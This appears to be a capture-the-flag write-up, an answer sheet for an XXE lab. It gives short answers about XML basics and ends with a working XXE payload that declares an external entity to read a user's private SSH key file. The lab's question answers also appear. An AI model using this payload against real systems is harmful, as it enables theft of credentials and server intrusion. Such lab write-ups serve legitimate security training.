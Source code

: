 # XXE

- Deploy the VM

	  no answer needed

- Full form of XML

	- `Extensible markup Language`

- Is XML case sensitive?

	- `yes`

- Is it compulsory to have XML prolog in XML documents?

	- `no`

- Can we validate XML documents against so schema?

	- `yes`

- How can we specify XML version and encoding in XML document?

	- `XML Prolog`

- With what extension do you save a DTD file?

	- `dtd`

- How do you define a new ELEMENT?

	- `!ELEMENT`

- How do you define a ROOT element?

	- `!DOCTYPE`

- How do you define a new ENTITY?

	- `!ENTITY`

- Try the payload mentioned in description on the website.

	  no answer needed

- Try to display your own name using any payload.

	  no answer needed

- See if you can read the /etc/passwd

	  no answer needed

- What is the name of the user in /etc/passwd

	- `falcon`

- Where is falcon's SSH key located?

	  no answer needed

- What are the first 18 characters for falcon's private key

	~~~
	<?xml version="1.0"?>
	<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
	<root>&read;</root>
	~~~
	- `********************`


